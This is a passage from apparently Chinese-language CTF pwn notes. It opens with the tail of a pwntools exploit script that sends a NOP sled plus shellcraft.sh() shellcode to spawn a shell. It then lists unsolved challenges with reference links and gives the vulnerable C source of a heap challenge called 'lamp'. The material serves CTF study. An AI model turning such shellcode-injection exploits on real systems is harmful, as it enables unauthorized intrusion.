print(hexdump(pay))
#pay = flat([0,0x50,7,2,0,0])
#},filler=b'\x00')
gdb.attach(io,f''' b *mmap64+21''')
s(pay)
pause()
#pay  = p64(0x111)
#pay += p64(0x222)
#pay += p64(0x333)
#pay += p64(0x444)
#pay += p64(0x555)
#pay += p64(0x666)
pay = 0xf80 * b'\x90' + asm(shellcraft.sh())
sl(pay)
itr()

```

‍

‍

## (待复现) messenger

‍

* 参考

```bash
https://hardenedvault.net/zh-cn/blog/2022-11-13-msg_msg-recon-mitigation-ved/

https://blog.csdn.net/Breeze_CAT/article/details/124150959
```

‍

‍

## (待复现) eepy

‍

‍

## lamp（赛后复现）

‍

* 源码

```c
#include <stdlib.h>
#include <unistd.h>

void gets(char *p) {
	char c;
	for(;;) {
		c = *p;
		read(0, p, 1);
		if(*p == '\n') {
			*p = c;
			break;
		}
		p++;
	}
}

int main() {
	char *leek = malloc(0x18);
	free(leek);
	write(1, leek, 8);
	char buf[3] = {};
	for(;;) {
		write(1, ">", 1);
		read(0, buf, 2);
		gets(malloc(strtol(buf, 0, 0x10)));
	}
}

```

‍

‍

‍

* 参考

```bash
https://enzo.run/posts/lactf2025/#overview
https://jonathankeller.net/ctf/lamp/
https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/#house-of-orange
```

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍

‍
